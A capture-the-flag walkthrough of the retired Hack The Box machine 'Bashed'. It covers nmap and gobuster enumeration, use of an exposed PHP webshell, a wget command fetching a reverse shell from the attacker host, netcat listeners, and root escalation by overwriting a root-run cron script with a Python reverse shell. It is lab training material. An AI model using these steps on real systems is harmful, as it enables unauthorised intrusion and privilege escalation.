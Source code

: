 ```yaml
---
layout: post
title: "Bashed"
categories: HTB-Walkthrough
---
```


![bashed1](/assets/img/bashed/bashed1.png)


Bashed is another OSCP-like box from the HTB 'retired' archive.

<h3>Nmap</h3>

`nmap -sV -Pn 10.10.10.68 |tee -a bash.txt`

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.49 seconds
root@kali:~/HTB/retired/bashed# 

```

Only a webserver seems to be running, [gobuster](https://github.com/OJ/gobuster) can help force-browse its directories. 


`gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .sh,.txt`

```

/uploads (Status: 301)
/images (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)

```

Gobuster finds  a few interesting directories, one of which is /dev.

![dev](/assets/img/bashed/bashed-dev1.png)

/phpbashed.php takes us to a php based bash webshell.

![phpbashed](/assets/img/bashed/bashed-phpbash.png)


<h3>Exploit</h3>

use webshell to navigate to /uploads

then try to upload evil.php (a php-reverse-shell)

`wget http://10.10.14.31/evil.php`

Browse to /uploads/evil.php and catch the shell on a netcat listener

`nc -nlvp  6969`

...we got wwwdata user shell.

<hr width="250" size="6">


<h3>Privilege Escalation</h3>

`sudo -l`

we can execute scriptmanager files via sudo...?

```

cat /home/arrexel/user.txt
2cxxxxxxxxxxxxxxxxxxxxxxxxxxxxc1

```

`sudo -u scriptmanager bash`

...now we are scriptmanager user...


<hr width="250" size="6">


The /scripts folder is owned by scriptmanager
It contains 2 files, test.py (owned by scriptmanager) and test.txt (owned by root)

Even though scriptmanager ownes test.py, it is run every minute by root...updating test.txt
....it can only do this if test.py is run by root....so we can change test.py.


Copy test.py to test1.py ...so that the original isnt lost (if we need to replace it)

Make test.py with reverse python shell to 8888 on kali machine.

Nano and vi are unusable....so we can either copy it accross as a file...
or do...

```

cat>test.py<<_EOF

then copypaste each line of the reverse shell over...
...then 'end of file' by doing 

_EOF

```


This creates test.py, with the pasted contents inside....
Its a handy way to write files when there seems no other way.

Set new listner to 8888 and wait for connection.

```


root@kali:~/HTB/retired/bashed# nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.68] 53652
/bin/sh: 0: can't access tty; job control turned off
 id
uid=0(root) gid=0(root) groups=0(root)
 cat /root/root.txt
ccxxxxxxxxxxxxxxxxxxxxxxxxxxxxe2


```

:)


